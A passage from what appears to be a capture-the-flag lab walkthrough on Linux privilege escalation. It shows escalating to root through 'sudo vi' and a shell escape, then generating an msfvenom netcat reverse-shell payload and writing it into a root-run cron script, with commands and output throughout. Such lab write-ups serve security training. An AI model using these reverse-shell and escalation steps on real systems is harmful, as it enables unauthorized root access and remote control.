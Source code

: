 So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.
Now, type ":!sh" to open a shell!
```
user8@polobox:/home/user3$ sudo vi

# id
uid=0(root) gid=0(root) groups=0(root)
```

## Exploiting Crontab

First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"
```
user8@polobox:/home/user3$ su user4
Password: 
Welcome to Linux Lite 4.4 user4
 
Sunday 11 February 2024, 18:25:51
Memory Usage: 356/1991MB (17.88%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user4@polobox:/home/user3$ 
```
Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 
```
root@ip-10-10-127-16:~# msfvenom -p cmd/unix/reverse_netcat lhost=10.10.127.16 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 94 bytes
mkfifo /tmp/rbbvv; nc 10.10.127.16 8888 0</tmp/rbbvv | /bin/sh >/tmp/rbbvv 2>&1; rm /tmp/rbbvv
root@ip-10-10-127-16:~# 
```
What directory is the “autoscript.sh” under?
```
user4@polobox:/home/user3$ grep user4 /etc/crontab
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
```
Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"
```
user4@polobox:/home/user3$ echo "mkfifo /tmp/rbbvv; nc 10.10.127.16 8888 0</tmp/rbbvv | /bin/sh >/tmp/rbbvv 2>&1; rm /tmp/rbbvv
> " > autoscript.sh
bash: autoscript.sh: Permission denied
user4@polobox:/home/user3$ cd /home/user4
user4@polobox:~$ ls
abc.txt  Documents  Music     Public     Videos
Desktop  Downloads  Pictures  Templates
user4@polobox:~$ cd Desktop/
user4@polobox:~/Desktop$ ls
autoscript.sh     helpmanual.desktop  recyclebin.desktop  userfiles.desktop
computer.desktop  network.desktop     settings.desktop
user4@polobox:~/Desktop$ echo "mkfifo /tmp/rbbvv; nc 10.10.127.16 8888 0</tmp/rbbvv | /bin/sh >/tmp/rbbvv 2>&1; rm /tmp/rbbvv
> " > autoscript.sh
user4@polobox:~/Desktop$ cat autoscript.sh 
mkfifo /tmp/rbbvv; nc 10.10.127.16 8888 0</tmp/rbbvv | /bin/sh >/tmp/rbbvv 2>&1; rm /tmp/rbbvv

user4@polobox:~/Desktop$ id
uid=1003(user4) gid=1003(user4) groups=1003(user4),0(root)
user4@polobox:~/Desktop$ 

```